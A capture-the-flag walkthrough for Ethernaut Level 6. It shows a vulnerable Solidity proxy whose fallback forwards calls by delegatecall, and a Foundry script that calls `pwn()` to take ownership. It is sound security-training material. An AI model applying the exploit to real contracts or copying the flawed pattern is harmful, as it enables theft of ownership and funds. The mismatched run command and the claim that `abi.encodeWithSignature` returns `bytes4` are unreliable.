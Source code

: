 # Ethernaut Level 6

---

Contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Delegate {
    address public owner;

    constructor(address _owner) {
        owner = _owner;
    }

    function pwn() public {
        owner = msg.sender;
    }
}

contract Delegation {
    address public owner;
    Delegate delegate;

    constructor(address _delegateAddress) {
        delegate = Delegate(_delegateAddress);
        owner = msg.sender;
    }

    fallback() external {
        (bool result,) = address(delegate).delegatecall(msg.data);
        if (result) {
            this;
        }
    }
}
```

Our goal is to claim ownership of the `Delegation` contract instance. Delegate call is a common approach for proxy-implementation structure, where the proxy A delegate calls the implementation B, logic in B is executed while state change happens in A. In the other word, logic in B is executed *in the context of* A.

So back to the contract. We can see that there's a delegate call in the fallback function of `Delegation`. If we call the `Delegation` contract with a `msg.data`, this call will be further delegated to the address of the `delegate`, where the logic will be executed based on the message. Note that the function `pwn()` can set the ownership to `msg.sender`, if we delegate call the `pwn()` function, then the `owner` in the function will be actually pointed to the state vairable in `Delegation` contract instance, and `msg.sender` will be the caller who has called the `Delegation` contract instance, which is exactly our EOA.

`Delegation.s.sol`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script, console} from "forge-std/Script.sol";
import {Delegation} from "../src/Delegation.sol";

contract DelegationScript is Script {
    Delegation delegation = Delegation(0xXXXXXXXX);

    function run() external {
        vm.startBroadcast();
        console.log("Current owner:", delegation.owner());
        address(delegation).call{value: 0}(abi.encodeWithSignature("pwn()"));
        vm.stopBroadcast();
        console.log("New owner:", delegation.owner());
    }
}
```

In the script, we basically just call the delegation address, which will trigger the `fallback()` logic inside the delegation, which will then delegate call the delegate to switch ownership to our EOA. Note that the `abi.encodeWithSignature()` returns a `bytes4` function signature, which will be the data of the call.

We can then run the command:

```bash
forge script script/Token.s.sol:TokenScript --rpc-url $SEPOLIA_RPC_URL$ --account default --broadcast
```

